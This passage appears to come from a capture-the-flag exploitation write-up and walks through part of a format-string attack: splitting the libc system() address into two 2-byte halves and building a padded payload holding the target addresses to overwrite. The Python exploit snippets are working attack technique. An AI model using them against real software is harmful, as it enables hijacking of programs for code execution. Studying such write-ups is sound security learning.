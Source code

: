 We can see that 2 higher bytes are the same `0x7f29`, so we just need to change first 4 bytes and that would be easy. First let's get 2 parts of system address with part1 is first 2 bytes, part2 is the next 2 bytes of address system:

```python
part1 = (libc.sym['system'] >> 0) & 0xffff
part2 = (libc.sym['system'] >> 16) & 0xffff
if part2<(part1 & 0xffff):
    part2 |= 0x10000
```

We will put the address after our format string so we will want to pad our format string up to `0x40` bytes for convenient exploit:

```python
payload = b''
payload = payload.ljust(0x40, b'P')
payload += flat(
    libconvert_base + 0x40e0,
    libconvert_base + 0x40e0+2,
    )
```

Debug until the function memcpy and run that function to get data to stack and check for the correct format string offset by couting or do a simple calculation as following:

![get-format-string-offset.png](images/get-format-string-offset.png)
